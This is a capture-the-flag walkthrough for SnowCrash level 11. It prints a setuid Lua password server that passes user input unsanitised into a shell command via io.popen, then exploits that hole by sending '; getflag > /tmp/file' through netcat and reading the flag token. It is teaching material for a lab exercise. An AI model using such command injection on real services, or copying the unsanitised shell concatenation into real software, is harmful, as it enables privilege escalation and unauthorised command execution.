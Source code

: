 For this level we look at the file we got.

	level11@SnowCrash:~$ ls -la
	-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua

This is the interesting file.
We can read its content.

	#!/usr/bin/env lua
	local socket = require("socket")
	local server = assert(socket.bind("127.0.0.1", 5151))

	function hash(pass)
	  prog = io.popen("echo "..pass.." | sha1sum", "r")
	  data = prog:read("*all")
	  prog:close()

	  data = string.sub(data, 1, 40)

	  return data
	end


	while 1 do
	  local client = server:accept()
	  client:send("Password: ")
	  client:settimeout(60)
	  local l, err = client:receive()
	  if not err then
		  print("trying " .. l)
		  local h = hash(l)

		  if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
			  client:send("Erf nope..\n");
		  else
			  client:send("Gz you dumb*\n")
		  end

	  end

	  client:close()
	end


This script (level11.lua) is a simple password-checking server that:

Listens on port 5151 on localhost (127.0.0.1)
Accepts incoming connections from clients
Prompts for a password with "Password: "
Hashes the provided password using SHA-1 by executing a shell command with io.popen()
Compares the hash to a hardcoded value: "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0"

We tried to reverse the sha1 string that is used to compare 
But it is the string "NotSoEasy" and it is not working.

Responds with either "Erf nope.." (if incorrect) or "Gz you dumbl" (if correct)
Closes the connection after each attempt


The key vulnerability is in the hash() function, which directly concatenates user input into a shell command without sanitization, creating a command injection vulnerability.

The file has setuid permissions and is owned by user flag11, meaning it runs with that user's privileges when executed.

So we need to send to the 5151 port the command that we need to execute.

	level11@SnowCrash:~$ nc localhost 5151
	Password: ; getflag > /tmp/file
	Erf nope..
	level11@SnowCrash:~$ cat /tmp/file
	Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

Here we have the flag.

